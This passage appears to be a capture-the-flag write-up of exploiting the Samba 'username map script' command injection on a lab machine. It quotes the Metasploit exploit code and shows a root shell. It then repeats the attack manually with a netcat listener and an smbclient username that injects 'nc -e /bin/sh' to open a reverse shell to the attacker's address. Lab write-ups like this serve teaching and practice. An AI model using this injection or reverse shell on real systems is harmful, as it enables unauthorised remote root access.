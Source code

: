 ```
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.17:4444
[*] Command shell session 1 opened (10.10.14.17:4444 -> 10.10.10.3:59500) at 2025-04-07 17:37:52 +0200

id
uid=0(root) gid=0(root)
```

### Without Metasploit

Let's take a brief look at the [Metasploit exploit source code](https://www.exploit-db.com/exploits/16320) to understand what's going on:

```python
...

def exploit
  connect

  # lol?
  username = "/=`nohup " + payload.encoded + "`"
  begin
    simple.client.negotiate(false)
    simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
  rescue ::Timeout::Error, XCEPT::LoginError
    # nothing, it either worked or it didn't ;)
  end

  handler
end

...
```

Apparently, the vulnerability is some kind of command injection into the SMB username: you can insert shell metacharacters and it can allow for executing of arbitrary commands. The `nohup` then is used to escape the current context. Let's try it out!

First we'll set up the listener:

```
$ nc -lvnp 4445
listening on [any] 4445 ...
```

Now for the exciting part:

```
$ smbclient //10.10.10.3/tmp -U '/=`nohup nc -e /bin/sh 10.10.14.17 4445`'
Password for [=`NOHUP NC -E \bin/sh 10.10.14.17 4445`]:
```

Note the `'` instead of the usual `"`, this is important to make sure the <code>`</code> backticks are sent across the wire as part of the username and not interpreted by **my** shell.
